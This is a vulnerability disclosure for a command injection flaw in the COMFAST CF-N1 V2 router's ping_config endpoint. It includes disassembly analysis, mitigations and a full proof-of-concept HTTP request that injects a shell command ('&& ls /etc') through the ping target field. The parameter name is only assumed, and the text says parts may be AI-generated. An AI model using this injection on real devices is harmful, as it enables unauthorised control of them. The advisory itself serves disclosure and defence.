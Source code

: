 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://dl.comfast.cn/firmware/CF-N1](http://dl.comfast.cn/firmware/CF-N1) V2-V2.6.0.rar

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: \[Your Name/Handle] (\[Your Email Address])

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter (likely related to the target IP/hostname for ping) is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET\&section=ping\_config HTTP/1.1

Host: cflogin.cn

Content-Length: 124

Accept: application/json, text/javascript, \*/\*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: application/json

Origin: http://cflogin.cn

Referer: http://cflogin.cn/guide/guide\_router.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: COMFAST\_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567

Connection: close

{"ping\_target":"8.8.8.8 && ls /etc > /www-comfast/ping\_test.txt","count":4,"timeout":2}
```



*   **Assumptions**: The vulnerable parameter is named `ping_target` (adjust if the actual parameter name differs based on further analysis).

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/ping_test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/ping_test.txt`, confirming arbitrary command execution.

## Affected Versions



*   COMFAST CF-N1 V2 V2.6.0 (other versions may also be affected; verification recommended)

## Mitigation Recommendations



1.  **Input Sanitization**: Implement strict validation on the vulnerable parameter (e.g., `ping_target`), allowing only valid IP addresses or hostnames. Reject inputs containing command delimiters (`;`, `&&`, `|`, `&`, `$`, backticks, etc.).

2.  **Command Execution Hardening**: Avoid directly concatenating user input into system commands. Use safe alternatives such as parameterized functions or whitelisted command templates that separate user input from executable code.

3.  **Least Privilege**: Restrict the permissions of the `webmgnt` process to minimize the impact of successful exploitation (e.g., prevent write access to critical system directories).

4.  **Firmware Update**: Release a patched firmware version addressing the input validation flaws and prompt users to upgrade immediately.

This vulnerability follows a similar pattern to the previously identified `multi_pppoe` command injection, highlighting a potential pattern of insufficient input sanitization in the device's configuration handling logic.

> （注：文档部分内容可能由 AI 生成）
